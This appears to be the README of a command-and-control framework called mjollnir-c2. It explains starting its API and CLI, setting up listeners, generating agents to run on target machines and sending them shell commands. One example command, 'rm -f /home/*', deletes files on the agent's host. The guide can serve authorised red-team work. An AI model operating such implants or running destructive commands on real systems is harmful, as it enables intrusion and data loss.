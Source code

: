 First construct the sqlite database:

```
$ cd mjollnir-c2-pub
$ python3
>>> from mjollnir_api import db, create_app
>>> db.create_all(app=create_app())
```

The modify the config.json file to suit your needs.

Then start the api:

```
$ cd mjollnir-c2-pub
$ export FLASK_DEBUG=1
$ export FLASK_APP=mjollnir_api
$ flask run
```

Eventually start the cli:

```
$ cd mjollnir-c2-pub/mjollnir_cli
$ python mjollnir-cli.py
```

In order to use mjollnir-c2, you need to authenticate first. And so, you need a user and a password.
The first thing you may want to do is create a user/password:

```
Mjollnir > first_user
```

Then you could:

* login to mjollnir-c2: login <user>

* create a mission: mission -c <name>

# Listener menu

There is a __listener menu__ that can be accessed using:

```
Mjollnir > listener
Mjollnir > list
Mjollnir > listener -u <listener_name>
Mjollnir > set PORT 5555
Mjollnir > start
```

# agent menu

There is a __agent menu__ that can be accessed using:

```
Mjollnir > agent
Mjollnir > list
Mjollnir > agent -u <agent_name>
Mjollnir > set PORT 5555
Mjollnir > generate
```

Then you could download your agent, then execute it.

Once executed:

```
Mjollnir > agent -l
Mjollnir > agent -i <agent_uid>
Mjollnir > CMD whoami; touch hello; rm -f /home/*
```

You will see that the task has been submitted. If the result is too long to get, you could grab it later using:

```
Mjollnir > task -r <task_uid>
```


